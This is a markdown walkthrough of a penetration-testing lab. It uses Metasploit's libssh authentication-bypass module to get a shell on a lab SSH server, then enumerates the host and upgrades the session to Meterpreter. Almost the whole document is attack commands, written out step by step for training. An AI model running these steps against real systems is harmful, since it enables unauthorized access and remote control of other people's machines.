



# 🔬SSH - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SSH server](https://www.attackdefense.com/challengedetails?cid=448)
>
>  - Target IP: `192.66.211.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [libssh Exploitdb](https://www.exploit-db.com/search?q=libssh)
>  - [libssh Authentication Bypass Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/libssh_auth_bypass/)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.66.211.3
setg RHOST 192.66.211.3
workspace -a libssh
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.66.211.3
```


```bash
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
info
# Description:
#   This module exploits an authentication bypass in libssh server code 
#   where a USERAUTH_SUCCESS message is sent in place of the expected 
#   USERAUTH_REQUEST message. libssh versions 0.6.0 through 0.7.5 and 
#   0.8.0 through 0.8.3 are vulnerable. Note that this module's success 
#   depends on whether the server code can trigger the correct 
#   (shell/exec) callbacks despite only the state machine's 
#   authenticated state being set. Therefore, you may or may not get a 
#   shell if the server requires additional code paths to be followed.
options
set SPAWN_PTY true
run
sessions
sessions 3
```



- Enumerate some information

```bash
id
cat /etc/*release
uname -r
```



- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 3
set LHOST eth1
run

sessions
sessions 4
```



------

